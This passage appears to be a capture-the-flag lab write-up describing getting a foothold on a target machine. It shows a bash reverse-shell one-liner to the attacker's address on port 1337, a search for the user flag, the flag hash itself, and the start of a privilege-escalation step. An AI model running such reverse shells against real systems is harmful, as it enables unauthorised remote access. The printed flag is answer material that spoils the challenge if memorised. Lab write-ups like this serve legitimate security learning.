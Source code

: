 ![sqlshell](images/sqlshell.png#center)

Time for a reverse shell - I just found [these payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) for bash.

```sh
bash -c "bash -i >& /dev/tcp/10.10.14.66/1337 0>&1"
```

I then used [pwncat](https://github.com/calebstewart/pwncat) to help keep a stable shell and listen on port `1337`.

```sh
find / -name user.txt 2>/dev/null
```

*file: user.txt*
```txt {linenos=true}
ec9b13ca4d6229cd5cc1e09980965bf7
```

### ssh
When starting privesc, I found something valuable for `ssh` (Secure Shell).
